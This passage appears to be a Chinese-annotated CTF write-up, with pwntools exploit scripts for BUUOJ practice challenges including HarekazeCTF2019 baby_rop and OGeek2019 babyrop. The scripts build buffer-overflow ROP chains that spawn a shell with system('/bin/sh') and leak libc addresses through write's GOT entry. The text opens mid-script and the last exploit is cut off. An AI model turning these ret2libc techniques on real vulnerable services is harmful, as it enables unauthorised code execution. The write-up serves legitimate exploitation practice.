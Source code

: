```python
payload = b'a'*128 + b'b'*8 + p64(pop_rdi_ret) + p64(hint) + p64(system_addr)

p.recvuntil(b"Input:")
p.sendline(payload)

p.interactive()
```

## [HarekazeCTF2019]baby_rop
### 思路
64位传参

### exp
```python
from pwn import *

#p = process("./babyrop")
p = remote("node5.buuoj.cn",26483)

binsh = 0x601048
pop_rdi = 0x400683
system_addr = 0x4005E3

payload = b'A'*(16+8) + p64(pop_rdi) + p64(binsh) + p64(system_addr)

p.sendline(payload)

p.interactive()
```

## [OGeek2019]babyrop
### 思路
ret2libc，利用write泄露地址

### exp
```python
from pwn import *

#context.log_level = 'debug'

p = remote("node5.buuoj.cn",29568)
#p = process("./pwn")
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")

write_plt = elf.plt['write']
write_got = elf.got['write']
main = 0x08048825

write_offset = libc.sym["write"]
system_offset = libc.sym["system"]
binsh_offset = libc.search(b"/bin/sh").__next__()

payload1 = b'\x00'+b'A'*6+b'\xFF'+b'B'*10
p.sendline(payload1)

p.recvuntil(b'Correct\n')
payload2 = b'A'*235 + p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(8)
p.sendline(payload2)

```